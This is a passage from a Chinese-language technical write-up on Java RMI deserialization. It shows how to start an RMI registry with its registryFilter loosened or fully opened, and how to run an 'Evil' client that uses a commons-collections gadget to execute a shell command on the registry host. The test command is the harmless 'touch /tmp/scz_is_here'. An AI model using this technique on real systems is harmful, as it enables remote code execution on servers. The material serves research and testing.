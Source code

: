 ```java
            return ObjectInputFilter.Status.REJECTED;
        }
    }
    return ObjectInputFilter.Status.UNDECIDED;
}
```

8u121-b03还没有RegistryImpl.registryFilter()。

12.2) sun.rmi.registry.registryFilter属性

如果特别想用8u232测试，只能动用sun.rmi.registry.registryFilter属性。参[60]，
有示例。

在test2目录执行:

java \
-Dsun.rmi.registry.registryFilter='javax.management.BadAttributeValueExpException;java.**;org.apache.**' \
-Djava.rmi.server.hostname=192.168.65.23 \
-cp "commons-collections-3.1.jar:." \
RMIRegistryServer 1099

或者更简单的:

java \
-Dsun.rmi.registry.registryFilter='*' \
-Djava.rmi.server.hostname=192.168.65.23 \
-cp "commons-collections-3.1.jar:." \
RMIRegistryServer 1099

registryFilter属性的语法比较奇怪，单个"*"表示全部允许，但为了表示允许以
"java."打头的类，要写成"java.**"。

在test3目录执行:

java \
-cp "commons-collections-3.1.jar:." \
EvilRMIRegistryClientWithBadAttributeValueExpException3 192.168.65.23 1099 \
"/bin/touch /tmp/scz_is_here"

12.3) java.security文件

关于registryFilter属性的语法，可以在JDK目录中找:

jre/lib/security/java.security

这个文件的注释部分详解了registryFilter属性的语法。

--------------------------------------------------------------------------
#
# Serialization process-wide filter
#
# A filter, if configured, is used by java.io.ObjectInputStream during
# deserialization to check the contents of the stream.
# A filter is configured as a sequence of patterns, each pattern is either
# matched against the name of a class in the stream or defines a limit.